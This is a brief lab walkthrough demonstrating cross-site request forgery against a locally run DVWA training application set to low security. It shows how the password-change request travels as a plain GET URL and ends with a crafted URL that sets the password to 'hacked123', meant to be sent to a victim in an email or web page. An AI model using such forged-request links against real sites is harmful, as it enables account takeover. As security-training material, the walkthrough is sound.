 
# Cross Site Request Forgery (CSRF) Demo

* https://owasp.org/www-community/attacks/csrf


## Source Code Location
```
docker exec -it dvwa bash 
# cd /var/www/html
# cd /var/www/html/vulnerabilities/csrf
```


## DVWA Security Settings

* Click on "DVWA Security" (http://localhost/security.php)
* Set Security Level to "Low"



## On "CSRF" Web Form, Try

 * Click on "CSRF" (http://localhost/vulnerabilities/csrf)
 * Set New Password As Follows:

    New password: abc123
    Confirm new password: abc123
    Click Change


## Observations

  * Below the change button you will notice the message that says "Password Changed."
  
  * Notice is the URL string.

```
http://localhost/vulnerabilities/csrf/?password_new=abc123&password_conf=abc123&Change=Change#
```

  * See how the URL string has the below two parameters separated by a "&".
    * password_new=abc123
    * password_conf=abc123

  * This is DVWA's example of bad implementation of how to change a password on a web application for the following reasons:
    * http is being used instead of https, which means this password change was in clear text.
    * An attacker could manipulate the URL string using the address bar or curl to change the password.
    
  * Continue to next step


## Construct an "Attack" Email / HTML Page to trick the user into clicking on the link:

```
http://localhost/vulnerabilities/csrf/?password_new=hacked123&password_conf=hacked123&Change=Change#
```









